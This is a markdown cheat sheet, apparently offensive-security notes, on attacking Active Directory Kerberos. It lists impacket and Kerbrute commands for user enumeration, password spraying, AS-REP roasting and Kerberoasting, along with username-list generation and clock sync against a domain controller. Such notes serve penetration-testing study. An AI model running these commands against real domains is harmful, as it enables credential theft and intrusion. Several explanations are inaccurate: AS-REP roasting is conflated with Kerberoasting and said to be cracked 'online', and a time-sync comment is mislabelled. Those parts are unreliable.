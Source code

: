 # Kerberoas

---
# Navigation
- **[Definition](#Definition)**
- **[Kerberoas](#Kerberoas)**
	- [Kerbrute](#Kerbrute)
	- [Kerberoasting](#Kerberoasting) 
- **[Synchronizing time is important](#Synchronizing%20time%20is%20important)**
- **[Further reading](#Further%20reading)**

---
# Definition
## What's Kerberoas
Kerberos is **an authentication protocol that works on the basis of tickets** that allows clients to connect to services over an insecure network and still allow clients to prove their identity in a secure manner.
- If a user's `UserAccountControl` settings have "Do not require kerberoas preauthentication" enabled,it's possible to grab user's crackable AS-REP and brute-force it online.
- With sufficient rights `GenericWrite` or `GenericAll`,preauth can be forced disabled as well.
## How does Kerberoas work?
1. Login.
2. Request for Ticket Granting Ticket – TGT, Client to Server.
3. Server checks if the user exists.
4. Server sends TGT back to the client.
5. Enter your password.
6. Client obtains the TGS Session Key.
7. Client requests server to access a service.
8. Server verifies if service exist.
9. Server verifies request.
10. Server generates service session key.
11. Client receives service session key.
12. Client contacts service.
13. Service receives the request.
14. Service verifies request.
15. Service confirms identity to the client.
16. Client receives confirmation.
17. Client communicates with the service.
> Detailed explaination here: https://www.vanimpe.eu/2017/05/26/kerberos-made-easy/

# Kerberoasting
The goal is to get a **TGS** and decrypt server's account hash.
> Pre-requesties: Have a username or a list of users.

## Kerbrute
 For user enumeration,Password spraying and more
 ```bash
 go get github.com/ropnop/kerbrute
```
## Impacket tools
 **impacket-GetNPUsers**: Get users with disabled `Pre-authentication`.
 ```bash
 impacket-GetNPUsers <DOMAIN>/ -dc-ip 10.10.10.240 -no-pass -usersfile usernames.txt -format john
 ```
  **impacket-lookupsid**: Performs bruteforcing of Windows SID’s to identify users/groups on the remote target.
  ```bash
  impacket-lookupsid <DOAMIN>/ -target-ip <IP>
  ```
  **impacket-GetUserSPNs**:  Find Service Principal Names that are associated with a normal user account.
 ```bash
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -request
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -usersfile usernames.txt -no-pass -request
 ```
  **impacket-GetADUsers**: Gather data about the domain’s users and their corresponding email addresses. It will also include some extra information about last logon and last password set attributes.*If no entries are returned that means users don’t have email addresses specified so you can use **-all** option*.
 ```bash
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP>
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP> -all
 ```
 # Creating a list of users for bruteforcing
 - Download the rules
 ```bash
 curl https://gist.githubusercontent.com/dzmitry-savitski/65c249051e54a8a4f17a534d311ab3d4/raw/5514e8b23e52cac8534cc3fdfbeb61cbb351411c/user-name-rules.txt >> /etc/john/john.conf
 ```
 - To generate the list
 ```bash
 #Users file must be: zeyad abuqasem
 john --wordlist=first_last_names.txt --rules=Login-Generator-i --stdout > usernames.txt
 
 #For case sensitive output
 john --wordlist=first_last_names.txt --rules=Login-Generator --stdout > usernames.txt
 ```
 > Reference: https://dzmitry-savitski.github.io/2020/04/generate-a-user-name-list-for-brute-force-from-first-and-last-name
 # Synchronizing time is important
```bash
#Disable time sync on VM
sudo apt install ntpdate
sudo ntpdate <RemoteMachine-IP>

#Second method (my recommendation)
sudo apt install rdate
sudo rdate -n <DC>

#Third method 
sudo apt-get install chrony
sudo timedatectl set-ntp true 
sudo ntpdate <machine IP>

#Fourth method (xct notes)
sudo date -s "$(curl -sI <Target> | grep -i '^date:'|cut -d' ' -f2-)"
```
 # Further reading
 - Tutorial -> [**Impacket-Tools**](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)
- Cheatsheet -> [**Kerbrute CheatSheet**](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
- Explained -> [**Kerberoasting**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)

